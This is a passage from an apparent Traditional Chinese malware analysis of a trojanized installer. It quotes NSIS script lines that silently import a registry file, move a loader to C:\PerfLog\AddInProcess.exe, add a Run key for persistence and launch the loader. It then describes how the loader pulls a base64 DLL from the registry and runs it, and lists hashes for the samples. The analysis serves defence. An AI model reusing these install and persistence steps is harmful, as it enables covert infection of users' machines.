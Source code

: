 ```sh
Exec "regedit.exe /s $\"$INSTDIR\ns.reg$\""
```
```sh
# Move $INSTDIR\cnPath.exe to C:\PerfLog\AddInProcess.exe
StrCpy $R0 $INSTDIR\cnPath.exe
StrCpy $R1 C:\PerfLog\AddInProcess.exe
System::Call "Kernel32::MoveFileA(t R0,t R1)"
```
```sh
# Setup service registry and run
WriteRegStr HKCU Software\Microsoft\Windows\CurrentVersion\Run telegramCnService C:\PerfLog\AddInProcess.exe
ExecShell "" C:\PerfLog\AddInProcess.exe
```
基本上看完 NSIS 腳本就能了解它的感染手段跟持久化的方式。

## 載入器 AddInProcess.exe
知道安裝過程動的手腳以後，目標就很明確了，`AddInProcess.exe` 跟寫入的 Registry 資料。

|Filename|SHA256|
|-|-|
|AddInProcess.exe (2.1.6)|f853c478fc57ac7e8bf3676b5d043d8bf071e2b817fe93d2acbd0333c46d1063|
|AddInProcess.exe (2.1.10)|379a9fcb8701754559901029812e6614c187d114e3527dd41795aa7647b68811|

基本上兩個的函式內容並沒有不同，僅有 metadata 改變而已，File Version 從 `1.0.0.0` 變成 `1.3.0.0`。
{% image fancybox center p3.png "Figure 3. 兩者的檔案基本訊息" %}
{% image fancybox center p4.png "Figure 4. 相同的 .NET 函式結構" %}
{% image fancybox center p5.png "Figure 5. 相同的 Main 函式" %}

從 Figure 5. 的 Main 函式就可以知道，`AddInProcess.exe` 只是個載入器，真正的內容在安裝時匯入的 registry 資料裡，位在 `HKEY_CURRENT_USER\Software\<COMPUTERNAME>`裡面是 base64 編碼過的 DLL 和一個 ip 位址。

{% image fancybox center p6.png "Figure 6. Registry 的內容" %}

## Assembly.Load(Malware.dll)
藉助 .NET 的 `Assembly.Load` 函式可以動態載入另一個 .NET 的 DLL，也就是 registry 的內容，我們可以提取出來進一步分析。

|Filename|Compile Time|SHA256|
|-|-|-|
|ns.reg (2.1.6)|N/A|96e0c3048df12fd8a930fbf38e380e229b4cdb8c2327c58ad278cfb7dafcec22|
|registry.bin (2.1.6)|2020-09-23T09:43:39|7fd9d7a91eb9f413463c9f358312fce6a6427b3cd4f5e896a4a5629cb945520a|
|ns.reg (2.1.10)|N/A|d620d8f93877387b7fab7828bbfe44f38f4a738ca6fd68f18507b3aa95da683a|
|registry.bin (2.1.10)|2020-09-28T18:16:01|e60b984b7515a6d606ee4e4ae9cb7936bc403176e0ac8dbeeb6d0ae201fca3ef|

|PDB Path|
|-|
|D:\source\MyJob\反射dll\ConsoleApplication2\obj\Release\反射.pdb|
